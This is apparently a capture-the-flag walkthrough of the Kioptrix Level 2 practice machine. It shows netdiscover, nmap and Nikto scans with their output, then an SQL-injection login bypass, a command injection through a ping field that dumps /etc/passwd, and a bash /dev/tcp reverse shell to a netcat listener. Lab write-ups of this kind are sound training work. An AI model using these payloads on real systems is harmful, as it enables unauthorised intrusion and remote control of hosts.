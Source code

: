 # Kioptrix L2 Walkthrough

### Network Discoveery

We need to find out the IP of the victim host:

```sudo netdiscover -i eth0```

### Enumerate ports and services

```sudo nmap -sV -O 192.168.1.32```

```
tamosma@kali:~$ sudo nmap -sV -O 192.168.1.32
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 18:47 EDT
Nmap scan report for 192.168.1.32
Host is up (0.0017s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
631/tcp  open  ipp        CUPS 1.1
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 9E:86:37:32:02:D7 (Unknown)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

We note that there is not information from the ssl/https version and about the mysql, so we try to find out more suing Nikto:

```nikto -h 192.168.1.32 -p 443```

and the resulut is a bit delusional:

```
nikto -h 192.168.1.32 -p 443
- Nikto v2.1.6
---------------------------------------------------------------------------
+ No web server found on 192.168.1.32:443
---------------------------------------------------------------------------
+ 0 host(s) tested
```

So there is not really an https service working there...


Checking the port 80:

```
  nikto -h 192.168.1.32 -p 80
```

the result:

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.32
+ Target Hostname:    192.168.1.32
+ Target Port:        80
+ Start Time:         2020-03-17 19:07:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Uncommon header 'tcn' found, with contents: choice
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 357810, size: 4872, mtime: Sat Mar 29 13:41:04 1980
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 1 error(s) and 17 item(s) reported on remote host
+ End Time:           2020-03-17 19:08:07 (GMT-4) (48 seconds)
```

Nikto reports that we may have the capablity of XSS injection, that we have PHP and Apache is outdated... so maybe we can try some XSS or maybe even SQL injection.


### Exploit

We note that the ssh is quite hold! Looking in google for: ``` openssh 3.9p1 release year ```

we find:

``` OpenSSH 3.9 was released on 2004-08-18 ```

so this is a good candidate.

But first I take the hint from Nikto and I go to test for PHP injection on those fields of the web application running at:

```http://192.68.1.32:80```

I put the below string on the username and password field:

```; print phpinfo();```

but nothing comes back, so I give a quick try with the basics of sql injection using mysql syntax:

``` ' or '1'='1 ```

and yes we land to a page that has an input field to specify an IP address... so considering that this is a vulnerable host, we try to inject a Linux command to ping the loaclhost and we attach to it an innocent command to display the users on the system:

```127.0.0.1; cat /etc/passwd```

and the result is:

``` 127.0.0.1; cat /etc/passwd
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.041/0.043/0.045/0.007 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
.....
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
.....
```
So we note we have a user adm, mysql, john,harold...

Let's open a reverse shell and get a better look inside the guest :-)

On the Kali host we run a netcat listener on port 4444:

``` netcat -lvp 4444 ```

and on the webside we run the command:

```127.0.0.1;/bin/bash -i >& /dev/tcp/192.168.1.26/4444 0>&1```

and we are inside the box.